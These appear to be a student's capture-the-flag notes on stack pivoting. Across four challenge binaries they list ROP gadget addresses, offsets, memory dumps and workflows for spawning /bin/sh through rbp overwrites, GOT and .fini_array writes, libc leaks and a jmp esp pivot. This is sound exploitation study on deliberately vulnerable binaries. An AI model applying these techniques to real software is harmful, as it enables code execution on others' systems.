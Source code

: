 # Stack pivoting

* speedrun-004
    64 bits, LSB, statically linked, NX.

    Asks for two inputs and displays some text.

    With ghidra:
    * pretty big, long to analyse
    * no reference to "flag" string in the code, so we probably need to open a shell
    * interesting method at `0x00400b73`, because there is a buffer and a call to a read method.

    The interesting method is called if we input a first value between 1 and 0x102, which seems to be the length of the second input we can give.

    At this place:
    stack: 0x7fffffffdb30 (BTW the stack is 256 bytes long, and the input can be 0x101 = 257 -> 1 byte overflow)
    eip: 0x7fffffffdc38
    -> delta of 0x108 -> too much, bad candidate ?

    It is indeed the candidate we were seeking, but with an attack called "stack pivot", where we overwrite the least value of the base pointer (rbp). When we exit the current, we will go into another method that will just exit, so the rbp we modified will become the return pointer (or maybe I'm completely wrong).

    Then since it is an ROP let's get our gadgets:
    ```
    ROPgadget --binary speedrun-004 --ropchain
    ```
    mov: 0x47f521 mov qword ptr [rsi], rax ; ret
    rax: 0x415f04 pop rax ; ret
    rdi: 0x400686 pop rdi ; ret
    rsi: 0x410a93 pop rsi ; ret
    rdx: 0x44a155 pop rdx ; ret
    sys: 0x40132c syscall

    For reminder the args need to be like this (thanks [syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)):
    rax = 0x3b, rdi = "/bin/sh", rsi = 0x0, rdx = 0x0

    Note to self: by using my own gadgets but following most of the tutorial's answer, I ended up using the mov instruction in the wrong way (it is the only different gadget it seems). So be wary next time !

    Just an overview of the memory layout after the payload was sent:
    ```gdb
    0x7ffeb0a76000:	0x0000000000400416	0x0000000000400416 <-- ret gadgets (probably more before too)
    0x7ffeb0a76010:	0x0000000000400416	0x0000000000400416
    0x7ffeb0a76020:	0x0000000000400416	0x0000000000400416
    0x7ffeb0a76030:	0x0000000000400416	0x0000000000400416 <-- ret gadgets (end)
    0x7ffeb0a76040:	0x0000000000410a93	0x00000000006b6030 <-- writing /bin/bash (prep)
    0x7ffeb0a76050:	0x0000000000415f04	0x0068732f6e69622f <-- writing /bin/bash (the string value)
    0x7ffeb0a76060:	0x000000000047f521	0x0000000000415f04 <-- writing /bin/bash (mov) + start of execve
    0x7ffeb0a76070:	0x000000000000003b	0x0000000000400686
    0x7ffeb0a76080:	0x00000000006b6030	0x0000000000410a93
    0x7ffeb0a76090:	0x0000000000000000	0x000000000044a155
    0x7ffeb0a760a0:	0x0000000000000000	0x000000000040132c <-- end of execve (syscall)
    0x7ffeb0a760b0:	0x00007ffeb0a76000	0x0000000000400c44 <-- overwritten ebp (least byte) + eip
    ```

    See how the overwritten ebp points back to a ret gadget. But since the addresses are random we might need to execute the pwn several times.

* onewrite
    64bits, LSB, dynalically linked, Canary + NX + PIE.

    looks like a helper for a rop: gives us a leak and asks us for an address and date (a command).

    The heap leak will display the address of the do_leak method, the stack leak will corresponds to the address of a buffer within the do_leak method.

    We can then write 8 bytes anywhere within do_overwrite.

    In do_leak:
    stack leak: 0x7fffffffdc50
    rip: 0x7fffffffdc68
    return addr delta: 0x18

    heap_leak: 0x7f7721d40a15
    __libc_csu_fini: 0x7f7721d41810
    delta: 0x2a559b

    ROP:
    mov: 0x77901 mov qword ptr [rsi], rax ; ret
    rsi: 0xd9f2 pop rsi ; ret
    rax: 0x460ac pop rax ; ret
    rdi: 0x84fa pop rdi ; ret
    rdx: 0x484c5 pop rdx ; ret
    sys: 0x917c syscall

    Looking for a place to write '/bin/bash' -> bss seems empty
    bss target: 0x7fb41b3d93b0
    pie leak on this run: 0x7fb41b12ea15
    -> delta of 0x2aa99b
    
    New Gadget: rsp pivot:
    0x00000000000106f3 : add rsp, 0xd0 ; pop rbx ; ret

    Will be used to modify the return location (which of course would be in the middle of our code ^^)

    Workflow:
    1. do a stack leak and overwrite the rip address so we can execute do_leak again
    2. do a pie leak to overwrite addresses at .fini_array so we call do_overwrite twice, then loop back
    3. Write each part of the ROP by writing it then looping back (double do_overwrite from above)
    4. do a rsp pivot so when do overwrite returns it will go to a gadget that will modify rsp, so it will jump at the beginning of our ROP.

* sum
    64bits, LSB, dynamically linked, Canary + NX.

    Asks for a list of whitespace sparated numbers and sum them up.

    The scanf will format the input as "%lld" (long long int -> 8 bytes)

    Due to how the variable are declared:
    ```
    undefined8 arrayPtr;
    undefined8 local_40;
    undefined8 local_38;
    undefined8 local_30;
    undefined8 local_28;
    long *sumResult;
    ```
    We will be able to overwrite *sumResult when inputting a 6th result, and since the `sum` method will use this pointer, it will allow use to write anything we want anywhere we want. 

    In order to control what we write with sum, we need to overflow in order to have a clean sum value (0x0) before adding the last value. From tutorial:
    ```
    0x7fffffffffffffff + 0x7fffffffffffffff = 0xfffffffffffffffe
    0xfffffffffffffffe + 2 = 0x10000000000000000
    ```
    the address is substracted from one 0x7fffffffffffffff so that when it is added in the end it will even out and only the value we want to write will remain.

    I could not go until the end of this part (not even the half), since one of the first step requires to overwrite the exit method (or the address it points to) with something else. Unfortunatly(fortunatly?) there seems to be protection on this region:
    ```
    0x400660 <exit@plt>:	0x09e225ff (the one we want to overwrite)
    > vmmap
    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x  homework_folder/sum_ccafa40ee6a5a675341787636292bf3c84d17264
    ```
    sad violin noises. .fini_array also seems to be in a read-only region.

    But .got.plt seems to be writable! overwriting the entry of exit seems to loop! After reading back the tutorial it seems to be got all along, I was just completely confused :/

    Now that we loop, we will do a stack pivot with the printf method:
    * write a gadget at the call to printf
    * on the next loop put a payload so that the printf will direcly return and execute instructions from the stack.

    Let's try `0x00000000004005ee : ret` for the gadget (didn't work, I'll use the one from the tuto). The next loop's payload will leak puts' address:
    ```
    0x0000000000400a43 : pop rdi ; ret
    got address of puts
    plt address of puts
    address of call exit
    '0' to end the sequence
    ```

    That will give us the address of puts, from which we will deduce the base of libc.

    With the pwn script displaying the base and a debugger running, we can look for the libc address of '/bin/sh' (well, I could have seen the base from gdb too with `vmmap`):
    from gdb (/bin/sh) -> 0x7efdd927c5aa
    from script (base) -> 0x7efdd90c5000
    Delta -> 0x1b75aa

    The last part of the exploit will just put this '/bin/sh' into rdi, then call a system call.

* b0verflow
    32bits, LSB, intel 80386, dynamically linked, no sec.

    Upon execution it will ask for a name and display something.

    Simple stack overflow: we read 0x32 into a 32 byte buffer.

    buffer at 0xffbddcd8
    eip at 0xffbddcfc
    -> delta of 0x24

    The exploit consits of a stack pivot: we overwrite the return address with a gadget that will move the esp register, then return (so to the new value of esp). Since this zone is also under our control, we put here a `jmp esp` gadget, so that the execution flow will just jump to where esp points to, e.g our shellcode.

    Weirdly I had to do some padding adjustments to the payload so that the diffent jumps would work well, while the tutorial did not have to do it.

# about stack pivoting

From what I saw stack pivoting happens when at the return of a function the eip register points to instructions that will also return. By having a `ret` just after the return of a call the ebp register that was used in the call will be used as a eip just after.

So it will all come down to how to put that ret at the right place (e.g. put a gadget on the return adress).